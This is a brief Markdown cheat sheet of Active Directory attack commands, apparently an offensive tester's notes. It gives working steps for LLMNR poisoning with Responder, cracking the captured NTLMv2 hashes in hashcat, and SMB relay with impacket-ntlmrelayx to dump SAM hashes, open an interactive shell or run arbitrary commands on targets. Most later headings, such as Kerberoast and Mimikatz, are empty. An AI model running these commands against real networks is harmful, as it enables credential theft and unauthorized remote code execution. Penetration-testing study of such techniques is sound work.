 # Basic AD Attacks
### LLMNR/Responder
Start Responder
```bash
sudo Responder -I <iface> -dwP
```
Crack w/ hashmode 5600 in hashcat
```bash
hashcat -a 0 -m 5600 <hashfile> <wordlist>
```
### SMB Relay
SMB Signing must be disabled or not enforced

Disable SMB and HTTP in responder
```bash
sudo vim /etc/responder/responder.conf
```
Turn on responder
```bash
sudo Responder -I <iface> -dwp
```
Create a targets.txt file (List of all relay attack targets. Just a list of IP address. (1 per line)

Dump SAM
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```
Open a shell
```bash
nc 127.0.0.7 11000 #Open a netcat listener

sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```
Run a command
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -c "<command"
```

### IPv6 DNS TakeOver

### Passback Attacks

### Pass the Hash (PTH)

### Kerberoast

### Token Impersonation

### LNK File Attacks

### Credential Dumping (Mimikatz)


